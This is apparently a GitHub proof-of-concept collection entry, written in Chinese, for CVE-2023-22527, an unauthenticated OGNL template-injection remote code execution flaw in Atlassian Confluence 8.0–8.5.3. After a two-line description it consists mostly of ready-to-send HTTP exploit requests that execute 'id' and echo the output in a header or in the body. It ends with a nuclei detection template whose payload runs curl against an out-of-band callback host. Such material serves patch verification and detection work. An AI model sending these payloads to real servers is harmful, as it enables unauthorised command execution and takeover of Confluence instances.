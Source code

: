 ## Atlassian Confluence 远程代码执行漏洞(CVE-2023-22527)

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

## poc
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

## exp
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

回显在body exp
```
label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter.write((new+freemarker.template.utility.Execute()).exec({"id"}))

```
![image](https://github.com/wy876/POC/assets/139549762/60ed0618-c378-49c4-bbdc-c7c8067cb461)

## nuclei
```
id: CVE-2023-22527

info:
  name: Atlassian Confluence - Remote Code Execution
  author: iamnooob,rootxharsh,pdresearch
  severity: critical
  description: |
    A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action.
    Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates. However, Atlassian recommends that customers take care to install the latest version to protect their instances from non-critical vulnerabilities outlined in Atlassian’s January Security Bulletin.
  reference:
    - https://confluence.atlassian.com/pages/viewpage.action?pageId=1333335615
    - https://jira.atlassian.com/browse/CONFSERVER-93833
    - https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2023-22527
    epss-score: 0.00044
    epss-percentile: 0.08115
    cpe: cpe:2.3:a:atlassian:confluence_data_center:*:*:*:*:*:*:*:*
  metadata:
    max-request: 1
    vendor: atlassian
    product: confluence_data_center
    shodan-query: http.component:"Atlassian Confluence"
  tags: cve,cve2023,confluence,rce,ssti

http:
  - raw:
      - |+
        POST /template/aui/text-inline.vm HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded

        label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=(new freemarker.template.utility.Execute()).exec({"curl {{interactsh-url}}"})

    matchers-condition: and
    matchers:
      - type: word
        words:
          - 'Empty{name='

      - type: word
        part: interactsh_protocol
        words:
          - dns
```
## 漏洞来源
- https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html
- https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
- https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22527/README.zh-cn.md
